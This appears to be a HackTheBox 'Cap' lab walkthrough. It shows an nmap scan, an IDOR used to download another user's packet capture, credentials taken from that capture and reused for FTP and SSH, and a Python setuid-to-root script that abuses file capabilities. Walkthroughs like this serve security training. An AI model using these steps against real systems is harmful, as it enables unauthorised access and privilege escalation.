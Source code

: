 #  HackTheBox — Cap Walkthrough

## 🧭 Enumeration

We'll begin by scanning all ports using `Nmap`. You can also use `rustscan` if you wish to speed up the process.

### 📡 Full TCP Nmap Scan

```bash
nmap -T4 -A -p- 10.10.10.245
```

```bash
Nmap scan report for 10.10.10.245
Host is up (0.26s latency).
Not shown: 65531 closed tcp ports (reset)
PORT     STATE SERVICE    VERSION
21/tcp   open  ftp        vsftpd 3.0.3
22/tcp   open  ssh        OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 fa:80:a9:b2:ca:3b:88:69:a4:28:9e:39:0d:27:d5:75 (RSA)
|   256 96:d8:f8:e3:e8:f7:71:36:c5:49:d5:9d:b6:a4:c9:0c (ECDSA)
|_  256 3f:d0:ff:91:eb:3b:f6:e1:9f:2e:8d:de:b3:de:b2:18 (ED25519)
80/tcp   open  http       Gunicorn
|_http-server-header: gunicorn
|_http-title: Security Dashboard
8888/tcp open  tcpwrapped
Device type: general purpose|router
Running: Linux 4.X|5.X, MikroTik RouterOS 7.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5 cpe:/o:mikrotik:routeros:7 cpe:/o:linux:linux_kernel:5.6.3
OS details: Linux 4.15 - 5.19, MikroTik RouterOS 7.2 - 7.5 (Linux 5.6.3)
Network Distance: 2 hops
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 80/tcp)
HOP RTT       ADDRESS
1   256.02 ms 10.10.14.1
2   256.16 ms 10.10.10.245

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 793.62 seconds
```


FTP(21), SSH(22), HTTP(80) ports are open on this machine,
lets check out the HTTP service 


![Screenshot From 2025-06-11 16-11-08](https://github.com/user-attachments/assets/a8bb77a8-3004-4b03-a818-d1bec41fade2)

## IDOR
In the security snapshot section, we notice that the value of the `/data/id` increments everytime, this could mean we are able to view packet captures of other users. This is known as Insecure Direct Object Reference (IDOR), wherein a user can 
access data owned by another user

![Screenshot From 2025-06-11 16-14-56](https://github.com/user-attachments/assets/0d9bd8ad-458d-4bea-889c-0b84c9fb5401)


I tried `/data/0` and found multiple packets 

![Screenshot From 2025-06-11 16-18-32](https://github.com/user-attachments/assets/4a0044f5-8915-4369-9028-6ff4b29cc9b8)

We shall download the 0.pcap file and analyse it using wireshark

![Screenshot From 2025-06-11 16-21-11](https://github.com/user-attachments/assets/9837909f-a78b-42bc-bf0a-8cf888abd89e)

This part looks interesting, It seems to be a password to either FTP or SSH services
```bash
username: nathan
password: Buck3tH4TF0RM3!
```

I used the credentials for FTP and it worked!

![Screenshot From 2025-06-11 16-24-59](https://github.com/user-attachments/assets/098a17ec-46f3-4d1b-a4cf-35a0d680c966)

It worked for SSH as well

![Screenshot From 2025-06-11 16-28-11](https://github.com/user-attachments/assets/3dacc215-eddb-478f-a476-390b34a851fe)

now we have a shell in the system : D

![Screenshot From 2025-06-11 16-30-33](https://github.com/user-attachments/assets/e3cd4816-c596-4e83-9606-2b3144fe8a2b)

the user flag in user.txt is in plain sight


## 💂 Privelege Escalation

We shall use LinPeas.sh to escalate priveleges in this machine and gain root access, but LinPeas is not provided in the machine, hence I shall host it using a python http server on my Kali box and simply `cURL` it in the machine


![Screenshot From 2025-06-11 16-37-16](https://github.com/user-attachments/assets/d3306b3d-3b81-4c75-ae63-69f455da1bb6)

Now we can `curl` it to the machine !

![Screenshot From 2025-06-11 16-37-01](https://github.com/user-attachments/assets/dad6016b-0271-4f7a-914e-7ac92e0f7ad8)

we take a look at the "Files with capabilities" section of the linpeas output and find this

![Screenshot From 2025-06-11 16-42-35](https://github.com/user-attachments/assets/cb178f31-14c6-4403-a5da-6b821d0b0c44)

![Screenshot From 2025-06-11 16-46-07](https://github.com/user-attachments/assets/b4979a1d-99ae-4207-9d68-569c2fa4325b)

This lets us change UID to 0 i.e root

we run the python script with the following code:
``` bash
import os
os.setuid(0)
os.system("/bin/bash")
```
![Screenshot From 2025-06-11 16-49-26](https://github.com/user-attachments/assets/7c7e46ac-54e1-4284-a7c1-1fe61fe4a423)

Now that we've gained root access, we shall move to the root dircetory and find the root flag!

![Screenshot From 2025-06-11 16-52-12](https://github.com/user-attachments/assets/c6a123ef-92f5-4ea1-ae1d-2a4e3998e777)


Happy Hacking!!!
                                                              
